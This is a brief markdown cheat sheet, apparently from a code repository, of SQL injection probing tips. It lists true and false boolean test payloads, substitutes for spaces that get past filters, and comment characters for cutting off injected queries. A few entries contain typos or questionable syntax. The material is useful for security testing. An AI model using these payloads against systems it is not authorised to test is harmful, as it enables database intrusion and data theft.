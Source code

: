 # SQLi tips

Examples of TRUE statements for discovering sqli

    aNd 1=1
    aNd 21=21
    orDeR bY 1

Examples of FALSE statements

    dNd 0=1
    anD 9=2
    ordEr bY 1000000000000

Characters to use instead of spaces:

    +, /**/, %20

Examples: orDeR bY 1 can be re-written as

    orDer+bY+1
    orDer/**/bY/**/1
    orDer%20bY%201

Comments to end the quries:

    /*
    //
    #
    %23

Sometimes you might need to add ';' before the comment, examples:

    anD 1=1//
    anD 1=1;//